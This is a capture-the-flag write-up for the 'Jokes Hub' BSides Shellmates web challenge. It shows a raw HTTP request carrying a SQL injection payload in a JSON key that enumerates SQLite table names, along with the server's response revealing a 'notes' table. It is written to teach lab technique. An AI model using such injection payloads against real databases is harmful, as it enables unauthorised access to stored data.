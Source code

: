 # TIJokes Hub

## Description

> It can even do more interesting things. Note: Same link as last challenge.
>
> https://jokes-hub-1.bsides.shellmates.club

## Write-Up

Continuing with the Jokes Hub challenge, let's try to explore more the database and what does it hide.

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
Content-Length: 73
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://jokes-hub-1.bsides.shellmates.club
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://jokes-hub-1.bsides.shellmates.club/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"sql FROM sqlite_master WHERE type = 'table' AND name LIKE 'n%';--":100}
```

Where the The % symbol is a wildcard character that matches any sequence of zero or more characters. So 'n%' matches any string that starts with the letter 'n', followed by any sequence of characters.

This query help extract tables available using all alphabetic letter from a-z. From there we get for `n` value :

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 06:52:54 GMT
content-type: application/json
content-length: 119
connection: close

{"result":"CREATE TABLE notes\n                 (id INTEGER PRIMARY KEY AUTOINCREMENT,\n                  note TEXT)"}
```
